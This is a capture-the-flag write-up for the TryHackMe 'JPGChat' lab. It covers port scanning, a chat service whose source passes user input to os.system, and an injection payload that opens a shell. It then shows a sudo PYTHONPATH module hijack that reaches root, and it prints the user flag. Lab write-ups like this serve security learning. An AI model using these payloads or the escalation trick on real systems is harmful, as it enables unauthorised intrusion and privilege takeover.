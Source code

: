 ```yaml
---
title: "Tryhackme - JPGChat"
classes: wide
tag: 
  - "python3"
  - "oscommand"
  - "misconfiguration"
  - "sudo"
  - "osint"
  - "privsec"
header:
  teaser: /assets/images/THMlogo.png
ribbon: red
description: "Writeup for THM - JPGChat"
categories:
  - Tryhackme
---
```

# Network Scan 

``` sql
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
🌍HACK THE PLANET🌍

[~] The config file is expected to be at "/home/sakthi/snap/rustscan/28/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.10.54.54:22
Open 10.10.54.54:3000
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

[~] 
Starting Nmap 7.60 ( https://nmap.org ) at 2021-11-17 18:20 IST
Initiating Ping Scan at 18:20
Scanning 10.10.54.54 [2 ports]
Completed Ping Scan at 18:20, 0.23s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 18:20
Completed Parallel DNS resolution of 1 host. at 18:20, 0.07s elapsed
DNS resolution of 1 IPs took 0.10s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 18:20
Scanning 10.10.54.54 [2 ports]
Discovered open port 22/tcp on 10.10.54.54
Discovered open port 3000/tcp on 10.10.54.54
Completed Connect Scan at 18:20, 0.22s elapsed (2 total ports)
Nmap scan report for 10.10.54.54
Host is up, received conn-refused (0.23s latency).
Scanned at 2021-11-17 18:20:49 IST for 1s

PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack
3000/tcp open  ppp     syn-ack
```

*Port 22 and 3000 are opened, we know 22 is openssh ,lets start enumerate port 3000*

## Port 3000
![image](https://user-images.githubusercontent.com/82046832/142204907-9e27a78c-9087-4fec-bec3-50d822b28c9d.png)

*looks like , a python service ruuning on port 3000,let access the server threw netcat!*
*lets visit the source code (jpgchat github)* <br>
**JpgChat.py**
``` py

#!/usr/bin/env python3

import os

print ('Welcome to JPChat')
print ('the source code of this service can be found at our admin\'s github')

def report_form():

	print ('this report will be read by Mozzie-jpg')
	your_name = input('your name:\n')
	report_text = input('your report:\n')
	os.system("bash -c 'echo %s > /opt/jpchat/logs/report.txt'" % your_name)
	os.system("bash -c 'echo %s >> /opt/jpchat/logs/report.txt'" % report_text)

def chatting_service():

	print ('MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel')
	print ('REPORT USAGE: use [REPORT] to report someone to the admins (with proof)')
	message = input('')

	if message == '[REPORT]':
		report_form()
	if message == '[MESSAGE]':
		print ('There are currently 0 other users logged in')
		while True:
			message2 = input('[MESSAGE]: ')
			if message2 == '[REPORT]':
				report_form()

chatting_service()
```
*we have soruce code of the service so we can break the service easy :)* <br>
*analyse the report_form() function, it get two inputs *
``` py
	your_name = input('your name:\n')
	report_text = input('your report:\n')
```
*and execute the following oscommand!*
``` py
os.system("bash -c 'echo %s > /opt/jpchat/logs/report.txt'" % your_name)
os.system("bash -c 'echo %s >> /opt/jpchat/logs/report.txt'" % report_text)
```
*so we can bypass the restriction using ; and ' ,and executing/get shell* <br>

``` sql
sakthi@debian:~/hacking/thm/jpgchat$ nc 10.10.54.54 3000
Welcome to JPChat
the source code of this service can be found at our admin's github
MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel
REPORT USAGE: use [REPORT] to report someone to the admins (with proof)
[REPORT]
this report will be read by Mozzie-jpg
your name:
hi
your report:
hi';/bin/bash;echo ' 
hi
id
uid=1001(wes) gid=1001(wes) groups=1001(wes)
```
get user flag
``` sql
wes@ubuntu-xenial:~$ ls
ls
user.txt
wes@ubuntu-xenial:~$ cat user.txt
cat user.txt
JPC{487030410a543503cbb59ece16178318}
wes@ubuntu-xenial:~$ 
```
## Privilleged Escalation
**sudo -l**
``` bash
wes@ubuntu-xenial:~$ sudo -l
sudo -l
Matching Defaults entries for wes on ubuntu-xenial:
    mail_badpass, env_keep+=PYTHONPATH

User wes may run the following commands on ubuntu-xenial:
    (root) SETENV: NOPASSWD: /usr/bin/python3 /opt/development/test_module.py
wes@ubuntu-xenial:~$ 
```
*So we can run the test_module.py in root access, and we have access to edit the PYTHONPATH*
**test_module.py**

``` python3
cat /opt/development/test_module.py
#!/usr/bin/env python3

from compare import *

print(compare.Str('hello', 'hello', 'hello'))
wes@ubuntu-xenial:~$ 
```
**PriveSec**
``` sql
wes@ubuntu-xenial:~$ echo "import os" > compare
echo "import os" > compare
wes@ubuntu-xenial:~$ cat compare
cat compare
import os
wes@ubuntu-xenial:~$ echo "os.system('/bin/bash')" >> compare
echo "os.system('/bin/bash')" >> compare
wes@ubuntu-xenial:~$ cat compare
cat compare
import os
os.system('/bin/bash')
```
*lets change the python3 env varriable*
```
export PYTHONPATH=/home/wes
``` sql
wes@ubuntu-xenial:~$ chmod +s compare.py
chmod +s compare.py
wes@ubuntu-xenial:~$ export PYTHONPATH=/home/wes
export PYTHONPATH=/home/wes
wes@ubuntu-xenial:~$ sudo -l
sudo -l
Matching Defaults entries for wes on ubuntu-xenial:
    mail_badpass, env_keep+=PYTHONPATH

User wes may run the following commands on ubuntu-xenial:
    (root) SETENV: NOPASSWD: /usr/bin/python3 /opt/development/test_module.py
wes@ubuntu-xenial:~$ sudo /usr/bin/python3 /opt/development/test_module.py
sudo /usr/bin/python3 /opt/development/test_module.py
root@ubuntu-xenial:~# cat compare.py
cat compare.py
import os
os.system('/bin/bash')
root@ubuntu-xenial:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@ubuntu-xenial:~# 
```
![image](https://user-images.githubusercontent.com/82046832/142213950-542bf0f0-f00d-4245-b056-4b359d9f70d7.png)




